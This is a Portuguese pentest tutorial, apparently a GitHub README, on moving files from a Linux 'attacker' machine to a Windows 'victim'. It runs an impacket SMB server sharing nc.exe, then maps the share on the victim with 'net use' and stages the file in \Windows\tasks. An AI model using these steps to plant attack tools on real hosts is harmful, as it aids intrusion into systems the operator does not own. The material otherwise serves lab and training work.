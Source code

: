 ```bash
sudo ln -s /usr/share/impacket/script /usr/bin/impacket-smbserver
```

### Compartilhamento de arquivos (Máquina Linux - Atacante)

Após a instalação e configuração, podemos seguir com o processo de disponibilização do arquivo para download. Para isso, siga os passos abaixo:

1. Crie uma pasta e mova o arquivo que deseja baixar para dentro dela, nesse exemplo usarei o nc.exe:
   
```bash
mkdir -p /tmp/shared/ ; cd /tmp/shared/
```

```bash
cp -v /usr/share/windows-binaries/nc.exe .
```
   
2. Para realizar o compartilhamento sem senha execute o comando abaixo:

```bash
sudo impacket-smbserver file /tmp/shared/ -smb2support
```

3. Para realizar o compartilhamento com senha execute o comando abaixo:

```bash
sudo impacket-smbserver -username kirito -password kirito file /tmp/shared/ -smb2support
```

Uma vez com todas essas etapas configuradas, podemos seguir para o ambiente Windows - Vítima para realizar o processo de download.

### Processo de Download (Máquina Windows - Vítima)

Para realizar o download da ferramenta/arquivo disponibilizado nas etapas anteriores abra um cmd ou powershell e siga as etapas abaixo:

1. Acesse a pasta onde deseja realizar o download:

```poweshell
cd \Windows\tasks
```

2. Conecte ao endereço de compartilhamento:

```powershell
net use * \\192.168.0.10\file
```

3. Verifique se a conexão foi estabelecida com sucesso:

```powershell
net use
```

4. Acesse a pasta compartilhada:
```powershell
dir z:\
```
